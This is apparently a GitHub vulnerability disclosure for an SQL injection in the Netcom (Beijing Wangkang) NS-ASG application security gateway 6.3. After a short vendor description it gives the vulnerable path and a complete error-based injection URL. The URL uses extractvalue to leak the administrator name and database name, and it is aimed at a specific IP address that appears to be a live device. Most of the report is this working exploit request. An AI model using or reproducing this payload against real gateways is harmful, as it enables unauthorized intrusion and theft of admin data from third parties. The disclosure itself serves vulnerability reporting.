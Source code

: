 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/config_ISCGroupNoCache.php


https://1.85.53.53/admin/config_ISCGroupNoCache.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20database())%20from%20Admin%20limit%201)))

<img width="601" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/cbd93745-98fe-4ade-8195-488300280c3c">
